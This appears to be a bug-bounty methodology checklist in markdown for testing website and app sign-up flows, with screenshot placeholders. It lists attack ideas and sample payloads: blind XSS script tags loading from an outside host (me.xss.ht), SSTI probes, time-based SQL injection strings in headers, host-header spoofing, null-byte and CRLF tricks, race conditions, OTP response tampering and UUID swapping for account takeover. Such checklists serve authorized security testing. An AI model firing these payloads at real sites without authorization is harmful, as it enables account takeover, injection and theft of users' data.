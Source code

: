 

- Try To Sign Up On Web AND Mobile App To Understand How Company Deal With Registration And Read The Received Email To Know What is Reflected
	![[Screenshot 2023-06-07 194630.jpg]]
- If You Need Business Email Try To Use username@bugcrowdninja.com OR username@wearehackerone.com
	![[Screenshot 2023-06-07 194715.jpg]]
	
- Note That , Gmail Treats Me@gmail.com AND Me+1@gmail.com As One Email , So When You Need To Create Multi Accounts , Use This Feature
	![[Screenshot 2023-06-07 194802.jpg]]

- **You Can Use Burp Suite Collaborator To Create Multi Accounts e.g.  me@one.id.collaborator.net , me@two.id.collaborator.net etc**
	![[Screenshot 2023-06-07 200331.jpg]]

- If There Is Google's ReCAPTCHA Try To Configure TLS Pass Through Of Burp Suite e.g.   .*google.com.*

	![[Screenshot 2023-06-07 200448.jpg]]

* Try To Sign Up With Existing Email Address e.g. existing@gmail.com , Sometimes Authorization Token Will Reflect In Response
	![[Screenshot 2023-06-07 203136.jpg]]

- Try To Sign Up With Company Mail Address e.g. admin@company.com To Gain Extra Authorities OR Get More Functionalities

	![[Screenshot 2023-06-07 203322.jpg]]

- Try To Sign Up With Company Mail Address Plus Space e.g. 'admin@company.com ' To Gain Extra Authorities OR Get More Functionalities
	
	![[Screenshot 2023-06-07 203448.jpg]]

- Try To Sign Up With Company Capitalize Mail Address e.g. admin@COMPANY.COM To Gain Extra Authorities OR Get More Functionalities
	![[Screenshot 2023-06-07 203628.jpg]]

- Try To Sign Up With Company Mail Address In This List To Gain Extra Authorities OR Get More Functionalities
	
	![[Screenshot 2023-06-07 204000.jpg]]

- Try To Sign Up By Using This List Of Payloads As Email Addresses To Get XSS , SSTI , SQLi OR Abusing Of Database
	![[Screenshot 2023-06-07 205240.jpg]]

- Try To Sign Up By Using This List With Burp Collaborator Mail Address To Get Backend Information OR Internal IPs

	![[Screenshot 2023-06-07 211540.jpg]]

- Sometimes They Ping Your Host Before Sending A Mail So Try To Sign Up By Using Burp Collaborator Mail Address with Injection OS Command To Get RCE

	![[Screenshot 2023-06-07 211654.jpg]]

- Try To Sign Up With Company Mail Address e.g. admin@company.com Then Try To Access To All Endpoints Of The Company Without Verifying admin@company.com

	![[Screenshot 2023-06-07 212321.jpg]]

- If Company Accepted admin@company.com As Email Address But You Can't Activate It , Try To Spoof Host Header e.g X-Forwarded-Host OR X-Host
	![[Screenshot 2023-06-07 212414.jpg]]

- Try To Insert SSTI Payloads e.g. {{7*7}} , {7*7} OR ${7*7} In Username , First Name OR Last Name

	![[Screenshot 2023-06-07 213853.jpg]]

- Try To Insert <% In Username , First Name OR Last Name , So If <% Reflected In Email Body Try To Inject <%= 7 * 7 %> To Get SSTI

	![[Screenshot 2023-06-07 214016.jpg]]

- Try To Set Your Name , First Name , Last Name etc As Blind XSS e.g. "><script src=//me.xss.ht></script> To Get BXSS In Admin Panel

![[Screenshot 2023-06-07 214933.jpg]]

- Try To Set Your Name , First Name , Last Name etc As Blind XSS e.g. <img src="//me.xss.ht"> To Get BXSS In Admin Panel

	![[Screenshot 2023-06-07 215145.jpg]]

* Try To Set Password As Blind XSS e.g. "><script src=//me.xss.ht></script> OR XSS Payload To Know If Your Password Reflect Plaintext In Backend OR Not

	![[Screenshot 2023-06-07 215251.jpg]]

- Try To Set Your Name , First Name , Last Name etc As TRUE , NULL , UNDEFINED etc

	![[Screenshot 2023-06-07 215440.jpg]]

+ Try To Insert Invisible Range %00 To %FF in Your Email OR Username e.g. Victim's Username is bob , You Can't Register it So Use bob%00 OR %01bob

	![[Screenshot 2023-06-07 215537.jpg]]

- Try To Insert Large String 50.000+ Characters OR Numbers in POST Parameters To Cause Errors Exposing Sensitive Information

	![[Screenshot 2023-06-07 215754.jpg]]

- Try To Set Password e.g. %01%E2%80%AEalert%0D%0A Then Try To Log In Only Using %01 , Log In Without CRLF And Is trela Accepted Instead Of alert ?

	![[Screenshot 2023-06-07 215952.jpg]]

- If The Company Uses Invitation To Create Account Try To Use Race Condition Technique To Create Multi Accounts By Using Only One Invitation

	![[Screenshot 2023-06-07 220036.jpg]]

- Try To Do Brute Force To Create Multi Accounts OR Enumerate Email Addresses If The Company Doesn't Send Activation Link To Your Account

	![[Screenshot 2023-06-07 220556.jpg]]

- Try To Insert SQLi Payloads e.g. ' AND '1' = '2 OR ";WAITFOR DELAY '0.0.20'--  OR Blind XSS In User-Agent

	![[Screenshot 2023-06-07 220649.jpg]]

- Try To Inject Blind XSS e.g. "><script src=//me.xss.ht></script> OR Time-Based SQLi e.g. ";WAITFOR DELAY '0.0.20'-- In X-Forwarded-For Header

	![[Screenshot 2023-06-07 220743.jpg]]

- Try To Set Your Birthday Today OR Tomorrow To Test Functionality Of Buying Giftcards With Birthday Discounts

	![[Screenshot 2023-06-07 220909.jpg]]

- If You Can Register By Using Mobile-Number  , The Server Will Ask You about OTP So Try To Figure Out If OTP Will Expire OR Not , If Not There Is Issue Here

	![[Screenshot 2023-06-07 220952.jpg]]

- If You Can Register By Using Mobile-Number  , The Server Will Ask You about OTP So Try To Manipulate The Response If You Entered a Wrong Mobile-Number

	![[Screenshot 2023-06-07 221202.jpg]]

- Try To change Any UUID e.g. ID , Email OR Phone In The Response To UUID Of Victim Account While Intercepting Response Of Request Of The Sign Up
	![[Screenshot 2023-06-07 221240.jpg]]

- If There Isn't CSRF Token OR Anti-CSRF , Try To Create CSRF POC

![[Screenshot 2023-06-07 221331.jpg]]

- Retrieve Data From Deleted Account , By Signing Up With the Old-Email Address That Was Associated To it
![[Screenshot 2023-06-07 221438.jpg]]

